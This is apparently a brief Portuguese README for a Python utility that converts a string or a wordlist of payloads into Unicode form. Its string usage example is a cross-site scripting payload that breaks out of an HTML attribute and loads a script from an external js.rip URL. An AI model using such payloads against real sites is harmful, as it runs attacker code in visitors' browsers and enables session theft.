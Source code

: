 # Converter_Unicode

</h1>Passe para o programa uma unica string ou um arquivo de payloads para converter</h1>
</br>
<h2>instalar=> pip install termcolor</h2>
</br>

<h3>Uso exemplo para string: python3 teste.py -s "><script src=\"https://js.rip/j14fkfemu3\"></script></h3>
</br>
<h3>Uso exemplo para wordlist.txt: python3 teste.py -w texto.txt</h3>
